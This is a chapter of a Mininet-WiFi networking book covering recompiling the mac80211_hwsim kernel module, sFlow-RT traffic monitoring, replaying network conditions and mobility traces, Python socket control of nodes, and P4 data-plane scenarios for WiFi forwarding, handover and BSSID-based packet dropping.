









# Expert

In this chapter, we will explore the main experiments with wireless networks that we have developed using Mininet-WiFi. As described earlier in this book, this chapter is labeled as Expert because it requires more in-depth knowledge and/or use of third-party applications.

## Manipulating kernel modules

In this tutorial, we will understand how operating system modules can be modified and how it is possible to contribute to the development of the Linux kernel. As an example, we will modify the main operating module of Mininet-WiFi, mac80211\_hwsim. This module is included in the source code of the Linux kernel and can be found at [https://github.com/torvalds/linux/blob/master/drivers/net/wireless/mac80211_hwsim.c](https://github.com/torvalds/linux/blob/master/drivers/net/wireless/mac80211_hwsim.c).


First of all, we need to create a _Makefile_, which is how the file responsible for setting compilation rules for Linux systems is called. In this tutorial, this file will compile the module to be modified. To generate the _Makefile_, let us first create a new directory named <_myModule_>. If you do not know how to create directories using the CLI, the following command will do so.

```
    ~/mininet-wifi$ sudo mkdir myModule
    ~/mininet-wifi$ cd myModule
    ~/mininet-wifi/myModule$
```

Then, within the <_myModule_> directory, create the _Makefile_ with the following content using your favorite text editor. 

```
    obj-m += mac80211_hwsim.o

    all:
            make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

    clean:
            make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```


 The lines shown above have to be indented by tabs, otherwise the _Makefile_ will not work as expected.


After that, you need to identify the kernel version of the Linux operating system you are using and then copy the module from the Github page, which we will modify.

```
    $ uname -a
    Linux alpha-Inspiron 4.15.0-15-generic #16~16.04.1-Ubuntu SMP 
    Thu Apr 5 12:19:23 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

According to the output of the command issued above, the kernel version is 4.15. Execute the same command to check your own kernel version. Then visit the [mac80211\_hwsim](https://github.com/torvalds/linux/blob/master/drivers/net/wireless/mac80211_hwsim.c) module web page and select your kernel version from the _branch_ menu. Then copy the contents of the module and save them to a file inside the <_myModule_> directory with the same module name. Repeat the same procedure for [mac80211\_hwsim.h](https://github.com/torvalds/linux/blob/master/drivers/net/wireless/mac80211_hwsim.h).


Once you have finished all the steps so far, the contents of the <_myModule_> directory will be exactly the same as those shown by the `ls` command.

```
    ~/myModule$ ls
    Makefile mac80211_hwsim.c mac80211_hwsim.h
```

Now, let us compile the _mac80211\_hwsim_ module. If all goes well, an output similar to the text shown below should appear.

```
    ~/mininet-wifi/myModule$ make
    make -C /lib/modules/4.15.0-15-generic/build M=/home/alpha/mininet-wifi/myModule modules
    make[1]: Entering directory '/usr/src/linux-headers-4.15.0-15-generic'
      CC [M]  /home/alpha/mininet-wifi/myModule/mac80211_hwsim.o
      Building modules, stage 2.
      MODPOST 1 modules
      CC      /home/alpha/mininet-wifi/myModule/mac80211_hwsim.mod.o
      LD [M]  /home/alpha/mininet-wifi/myModule/mac80211_hwsim.ko
    make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-15-generic'
```

Then double-check the contents of the <_myModule_> directory. Now, something similar to the content below should be noted.

```
    ~/myModule$ ls
    mac80211_hwsim.h      mac80211_hwsim.mod.o      Makefile     
    mac80211_hwsim.ko     mac80211_hwsim.o          modules.order
    mac80211_hwsim.mod.c  Module.symvers
```

At this point, you should already have your version of the mac80211\_hwsim module compiled and, in addition to being able to use it, you can also modify and recompile it for later use in Mininet-WiFi. For instance, run <_my-module.py_>. This script includes a call to the new module.

```
    ~/mininet-wifi$ sudo python myModule/my-module.py
```

Then observe the signal strength perceived by **sta1**.

```
    mininet-wifi> sta1 iw dev sta1-wlan0 link
    Connected to 02:00:00:00:01:00 (on sta1-wlan0)
    	SSID: new-ssid
    	freq: 2412
    	RX: 7978 bytes (155 packets)
    	TX: 806 bytes (9 packets)
    	signal: -36 dBm
    	tx bitrate: 1.0 MBit/s

    	bss flags:	short-slot-time
    	dtim period:	2
    	beacon int:	100
```

Without _Wmediumd_, which has been described previously in the book, signal strength is calculated by mac80211\_hwsim through a simple formula, which subtracts 50 from the _txpower_ value, which in this case is 14 dBm, resulting in the value of -36 dBm obtained previously.


So let us modify the module so that it returns another value. For example, if Mininet-WiFi is running, shut it down, look for the text _rx\_status.signal = -50_ in the contents of the _mac80211\_hwsim.c_ file, and replace -50 by -40. Then recompile the module using the _make_ command.


Finally, run the <_my-module.py_> script one more time.

```
    ~/mininet-wifi$ sudo python myModule/my-module.py
```

Now rerun _iw_ to check the signal strength perceived by **sta1**.

```
    mininet-wifi> sta1 iw dev sta1-wlan0 link
    Connected to 02:00:00:00:01:00 (on sta1-wlan0)
    	SSID: new-ssid
    	freq: 2412
    	RX: 968 bytes (17 packets)
    	TX: 310 bytes (4 packets)
    	signal: -26 dBm
    	tx bitrate: 1.0 MBit/s

    	bss flags:	short-slot-time
    	dtim period:	2
    	beacon int:	100
```

As expected, after changing the formula for calculating the received signal level, the signal value also has changed.


Once you understand how the mac80211\_hwsim module works, you can make any modifications and extend it as needed. You can also submit improvements to the discussion group about the Linux kernel, more specifically the [group discussing](https://wireless.wiki.kernel.org/ aspects of the IEEE 802.11.


It is worth mentioning that the mac80211\_hwsim module is based on mac80211, a framework used by wireless device driver developers. Therefore, any extensions for mac80211\_hwsim must be previously supported by mac80211.

## Traffic monitoring with sFlow-RT
Requirements: _sFlow-RT_

Monitoring network traffic is an important step in avoiding problems and keeping services always ready to respond when needed. Proper network management enables a better use of information technology resources, delivering the expected return on technology investments undertaken by a company.


Other advantages of network management over network traffic monitoring include: system failure detection; as a result of this detection, quicker and more efficient error fixing; identification of traffic patterns, including peak demand periods; performance visualization; among other features.


In the context of software-defined networks, _sFlow-RT_, a program that provides real-time monitoring capability, has proven to be a very interesting tool for processing _sFlow_ packets received by a given network. By acting on the SDN stack control plane, sFlow-RT changes the received datagrams into summary statistics or actionable metrics in flows, as chosen by the user. A set of packets with a common property constitutes a traffic stream known as a stream key, which is observed within a time interval.


As you may expect, in this tutorial we will learn to monitor wireless traffic using _sFlow-RT_. To do so, we will need to copy _sFlow-RT_'s source code, which is available on its [official website](https://sflow-rt.com/). There, you should see several packages that were developed for _sFlow-RT_. Of those packages, we will need to install the one called _mininet-dashboard_.

 _sFlow_ (Sampled Flow) is an industry standard for exporting packets on the second layer (layer 2) of the OSI model. It provides a means to do so with interface counters for network monitoring purposes. Its maintenance is done by the sFlow.org_ consortium.

Then, assuming that the _sFlow-RT_ source code and the _mininet-dashboard_ package have already been copied, we will start _sFlow-RT_ by executing the command below.

```
    ~$ cd sflow-rt
    ~/sflow-rt$ ./start.sh
```

After starting it, you should be able to open the [mininet-dashboard](http://127.0.0.1:8008/app/mininet-dashboard/html/) package, with which you can monitor flows in real time. However, you will still need to create the flows in order to view them using _sFlow-RT_. To create them, let us start a script that includes some instructions on how to make _sFlow-RT_ interpret or recognize the wireless interfaces created for the wireless nodes on Mininet-WiFi.


```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/sflow-rt.py
```

 If for some reason you cannot execute <_sflow-rt.py_>, and instead a message appears stating that a package was not found, then you must install it first.

Next, let us open one terminal for **sta1**, another for **sta2**, and then generate some data traffic between them via _iperf_.

```
    mininet-wifi> xterm sta1 sta2
```

Note that the **sta1** node was chosen to be the server and **sta2** the client.

```
    sta1# iperf -s
```

```
    sta2# iperf -c 10.0.0.1 -t 100
```



Finally, after starting _iperf_, you can already see real-time flows with _sFlow-RT_, as shown in the figure below. Note, also, that in addition to allowing you to observe data traffic in real time, _sFlow-RT_ can display the topology of the network on its topology tab. 

 

[Integration between Mininet-WiFi and sflow-rt](https://youtu.be/4ccua2b26k8)

## Reproducing network behavior

There are situations in which it is necessary to reproduce real network traffic conditions based on traffic observations from real environments, allowing fair comparisons between the physical and virtual environments to be done. Reproducing network traffic behavior is one of Mininet-WiFi's features. Below, we will learn about two types of network traffic behavior reproduction: network attributes and mobility.

### Network attributes
The first parameter of behavioral reproduction that we will use is called network attributes, by which link parameters, such as bandwidth, packet loss, latency and delay, can be dynamically configured. As a result, we will eventually be able to notice the proximity of the values collected from real-world experiments in relation to those obtained in a virtual way by using Mininet-WiFi.


For instance, imagine that at any given moment there is a network that displays a certain behavior pattern and you need to reproduce it on Mininet-WiFi. Imagine also that your task is to perform overload tests or any other test that demands the simulation of the network at that moment. This is exactly what we propose in this tutorial.


To accomplish this, we will use a capture file that will serve as a basis for the demonstration of bandwidth variation and latency. With the capture data already saved in a text file, all we need to do is run a Mininet-WiFi script that will_Play_ the traces recorded in the text file. Let us use <_replayingNetworkConditions.py_> as an example.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/replayingNetworkConditions.py
```

 Bandwidth traces can be acquired using _iperf_, and latency can be seen by issuing a _ping_.

Then, by using the Mininet-WiFi CLI and TC, we can observe the bandwidth variation of **sta1**'s **sta1-wlan0** interface. _The following output has been filtered to display only the data that interests us_.

```
    mininet-wifi> sta1 tc qdisc
    qdisc netem 2: dev sta1-wlan0 root refcnt 5 limit 1000 rate 1567Kbit
    mininet-wifi> sta1 tc qdisc
    qdisc netem 2: dev sta1-wlan0 root refcnt 5 limit 1000 rate 1669Kbit
    mininet-wifi> sta1 tc qdisc
    qdisc netem 2: dev sta1-wlan0 root refcnt 5 limit 1000 rate 1513Kbit
```

Our previous use of TC served only to demonstrate that, in fact, traces are being reproduced in Mininet-WiFi. Alternatively, the most varied network applications can be used for more specific tests while the network reproducibility feature is running. E.g. it would be possible to use _iperf_ itself to measure the bandwidth and _ping_ to observe the latency.

### Mobility
Another way to reproduce network behavior in Mininet-WiFi is by reproducing mobility. To reproduce the mobility of nodes in a real environment, it is necessary to define the _x_ and _y_ coordinates, and optionally _z_ when altitude is required. These coordinates can be obtained from any source, such as equipment with GPS support.


In this tutorial, we will use <_replayingMobility.py_> and a text file that already has the data needed for reproducibility purposes, just as we did above.


```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/replayingMobility.py
```

Once the script is executed, we can perceive the mobility of a given node by viewing the information contained in the position parameter, as follows:

```
    mininet-wifi> py sta1.position
    (24.0, 15.0, 0.0)
    mininet-wifi> py sta1.position
    (29.0, 20.0, 0.0)
    mininet-wifi> py sta1.position
    (34.0, 25.0, 0.0)
    mininet-wifi> py sta1.position
    (37.0, 28.0, 0.0)
    mininet-wifi> py sta1.position
    (42.0, 33.0, 0.0)
```

While **sta1** is moving around, you can use _iw_ to check associations and observe variations in latency and bandwidth. Other tools such as _ping_ or _iperf_, can be used for the same purpose, with the former monitoring latency and the latter bandwidth.

## Socket - low-level networking interface

You can access the network interfaces of Mininet-WiFi's nodes in basically three ways:\\

- Python API (e.g. `sta1.cmd()` or `sta1.pexec()`)
- Mininet-WiFi CLI or an xterm
- util/m (e.g. `m sta1 ifconfig`)


However, there may be times when you will need to access nodes from outside Mininet-WiFi. Moreover, you might need to access node attributes that were implemented on the Mininet-WiFi code base, such as `node.setPosition()`. To do so, you can use Python's socket module.


The socket module provides access to the BSD socket interface. It is available on all modern Unix systems, Windows, MacOS, and probably on additional platforms as well. In this tutorial, you will learn to start a socket server and client using Python and set the position for a node from outside Mininet-WiFi CLI.


First, you need to execute the socket server code as follows:

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap3/socket-server.py
```

The topology of this code consists of two stations, one access point and one host. Now, you need to open a new terminal and run the socket client code.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap3/socket-client.py
```

Then you should be able to see the following symbol on the terminal:

```
-> 
```

And after setting the position, in addition to receiving a response from the server saying that the command was accepted, you will be able to observe, on the graph, the new position defined for the node.

```
set.sta1.setPosition.40,40,40
Received from server: command accepted!
```

This feature is very important and can be used in many research projects, such as those involving the use of GPS (e.g. to develop self-driving cars).

## P4

P4 [Programming Protocol-Independent Packet Processors](https://p4.org) is a recent domain-specific language for programming network data plane pipelines. It is an open source programming language that allows users to dictate how networking hardware should operate. It can be used to (re-)define the pipeline of  silicon processor chips in network forwarding devices, such as switches, routers and network interface cards.


The purpose of P4 is to describe the behavior of the data plane pipeline of any system or appliance that forwards, modifies or inspects network traffic. 
Research on the design and implementation of networked systems built using P4 has been growing significantly. [P4 publications](https://p4.org/publications/)  touch multiple topics, including innovating by using P4 in server-based networking systems to offload data plane functions to SmartNICs and hardware switches supporting P4.


To this day, a number of shy, small-scale studies on the use of P4 in wireless networks have been developed. Still, this combination promises to enable the creation of truly flexible networks, to provide several advantages to NFV, improve HW performance, among other benefits. 

### Differences between P4 and OpenFlow

You may have probably heard that P4 is commonly regarded as the 2.0 version of the OpenFlow protocol. However, it is NOT OpenFlow 2.0, as some have mooted. Although they are both focused on opening up the forwarding plane, P4 addresses a different need in the network data plane: deep programmability, from arbitrary packet header parsing through a pipeline of match and action tables to the deparsing. 


Once a P4 program is compiled to invoke a target datapath, [P4Runtime APIs](https://p4.org/p4-runtime/) are used to manage the entries of the tables and to send/receive packets to/from the control plane, which can be local (traditional distributed models) or remote (SDN controller).


After this brief introduction to P4, let us see how it works in practice. To do so, we will run three scenarios: a basic WiFi scenario; a handover scenario; and a scenario of dropping packets based on BSSID. In order to run these three scenarios, you need to copy the source code available at https://github.com/ramonfontes/tutorials.

```
    ~/mininet-wifi$ git clone https://github.com/ramonfontes/tutorials
```

 This tutorial does not cover P4's installation process. You can either download the P4 VM available on the Internet or install it on your host.


### Basic WiFi scenario

The goal of this tutorial is to write a P4 program that implements basic forwarding. To keep things simple, we will implement forwarding only for IPv4. With IPv4 forwarding, the switch must perform the following actions for every packet that crosses it: (i) update the source and destination MAC addresses; (ii) decrement the Time-To-Live (TTL) in the IP header; and (iii) forward the packet out through the appropriate port.


The access points will have a single table, which the control plane will populate with static rules. Each rule will map an IP address to the MAC address and output port for the next hop. We have already defined the control plane rules, so you only need to implement the data plane logic of your P4 program.


The topology used in this tutorial consists of four stations and four access points. While stations **sta1** and **sta2** are associated with access point **ap1**, stations **sta3** and **sta4** are associated with access point **ap2**.


[Basic WiFi scenario](figures/basic-wifi.png  "Basic WiFi scenario")


Since our P4 program is already included in the <_solution/basic.p4_> file, we will use it in our scenario. With that said, you need to copy <_solution/basic.p4_> to the <_basic-wifi_> directory, as follows.


```
    ~/mininet-wifi/tutorials/exercises$ cd basic-wifi
    ~/mininet-wifi/tutorials/exercises/basic-wifi$ cp solution/basic.p4 .
```

Then, you can compile the script by issuing the _make_ command.

```
    ~/mininet-wifi/tutorials/exercises/basic-wifi$ sudo make
```

Mininet-WiFi should be running right now, and you can use the CLI to confirm that all nodes can communicate with each other.

In addition to <_basic.p4_>, other relevant files are included in the set of _JSON_ files located in the <_pod-top_> directory. There you can find important information, such as tables with matches and actions that populate switches and access points.

### Handover

The goal of this tutorial is to write a P4 program that implements a basic protocol for WiFi in order to provide seamless handover. With this basic protocol active, switch **s3** must perform the following action: forward packets from **sta1** to **h2**.


As illustrated in the figure below, the topology used in this tutorial consists of one station, two access points, one switch and two hosts (one of which functions as controller).

[Handover scenario](figures/p4-handover.png  "Handover scenario")


Before running the tutorial script, let us understand the process we will reproduce. First, **sta1** is associated with **ap1** and moves towards **ap2**. While it is roaming to **ap2**, ICMP packets are being sent to **h2**. Access point **ap1**, in turn, sends its BSSID and the MAC address of all stations associated with it to **h3**, which is the controller. While **sta1** is associated with **ap1**, an instruction in **s3** says that to reach **sta1**, the ICMP reply must be sent through its number three port. However, when **sta1** performs the handover to **ap2**, **s3** should learn about (or be aware of) the handover. The tutorial code will do just that, update the existing table in **s3**. 


Let us see this in practice. To do so, you should copy the `basic.p4` file to the handover directory, as follows.

```
    ~/mininet-wifi/tutorials/exercises$ cd handover
    ~/mininet-wifi/tutorials/exercises/handover$ cp solution/basic.p4 .
```

Now, you can compile the script using the _make_ command.

```
    ~/mininet-wifi/tutorials/exercises/handover$ sudo make
```

Mininet-WiFi should be running now, and you will be able to see **sta1** moving towards **ap2** while ICMP packets are being sent to **h2**. In the end, only one or two ICMP packets will be lost after **sta1** does the handover to **h2**.


So, how did the communication between **sta1** and **h2** remain uninterrupted? When **ap2** (1) receives the association request, it responds with an (2) association response message to **sta1** and (3) sends a custom packet with its BSSID and the MAC address of **sta1** to **h3**. After receiving this packet, **h3** (4) installs new tables in **s3** using a new JSON located in <_topo-handover/s3-runtime.json_>.


Of course, updating an entire switch table may not be - and often is not - ideal. Therefore, we recommend that you create your own programming logic in your p4 file.

 In the <_receive.py_> file you can find a call to <_run-code.sh_>, which has a command you can use to update the table in **s3**.

 

[P4+Mininet-WiFi: Handover scenario](https://www.youtube.com/watch?v=v-_gQ7I4RXc)


### Dropping packets based on BSSID

The goal of this tutorial is to write a P4 program that implements a basic protocol for WiFi. With this basic protocol, switch **s3** must perform the following action: drop any packet created by **ap2**.


The topology used in this tutorial consists of two stations, two access points, one switch and one host. Associated with **ap1**, **sta1** should be able to communicate with **h3**. On the other hand, **sta2** should not be able to communicate with **h3** due to the BSSID issued by **ap2**. In a hypothetical case, only allowed BSSIDs can have network access.\\


[BSSID based scenario](figures/bssid-based.png  "BSSID based scenario")


As was done earlier, you need to copy <_solution/basic.p4_> to the <_bssid-based_> directory, as follows.

```
    ~/mininet-wifi/tutorials/exercises$ cd bssid-based
    ~/mininet-wifi/tutorials/exercises/bssid-based$ cp solution/basic.p4 .
```

Now, you can compile the script by running the _make_ command.

```
    ~/mininet-wifi/tutorials/exercises/bssid-based$ sudo make
```

Mininet-WiFi should be running now, and you can see three terminals: one showing **ap1** sending an amount of data to **h4**; another one showing **ap2** sending data to **h4**; and a final one showing packets received by **h4**, the controller.


At first, **sta2** is out of range in relation to all access points, including **ap2**. Thus, you must move **sta2** towards **ap2**.

```
    mininet-wifi> py sta2.setPosition('500,200,0')
```

Now, **ap2** should send a packet to **h4** that contains its BSSID, and **h4** should update the table installed in **s3**. This update will make **s3** drop packets directed to **ap2**.

```
    mininet-wifi> py sta2.setPosition('500,200,0')
```

Now, try a _ping_ between **sta2** and **h3** to confirm the new rules.

```
    mininet-wifi> sta2 ping -c1 10.0.3.3
    PING 10.0.3.3 (10.0.3.3) 56(84) bytes of data.
    
    --- 10.0.3.3 ping statistics ---
    1 packets transmitted, 0 received, 100% packet loss, time 0ms
```

As we can see, **sta2** cannot ping **h3**. Now, move **sta2** towards **ap1**.

```
    mininet-wifi> py sta2.setPosition('100,200,0')
```

And try a new _ping_ between **sta2** and **h3**.

```
    mininet-wifi> sta2 ping -c1 10.0.3.3
    PING 10.0.3.3 (10.0.3.3) 56(84) bytes of data.
    64 bytes from 10.0.3.3: icmp_seq=1 ttl=62 time=70.3 ms
    
    --- 10.0.3.3 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 70.364/70.364/70.364/0.000 ms
```

As we can see, **sta2** is able to ping **h3**, since **ap1**'s BSSID is allowed by the controller. In any case, **sta1** should be able to ping **h3**.


As mentioned before, updating an entire switch table may not be ideal. Therefore, you should create your own programming logic in your p4 file, instead of replacing the switch table.

 The logic implemented for the controller can be found in the <_receive.py_> file.

## Use case scenarios

Next, we will do some tutorials involving slightly more advanced scenarios about computer networking in which Mininet-WiFi can be used.

### Containers
Requirements: _Docker_

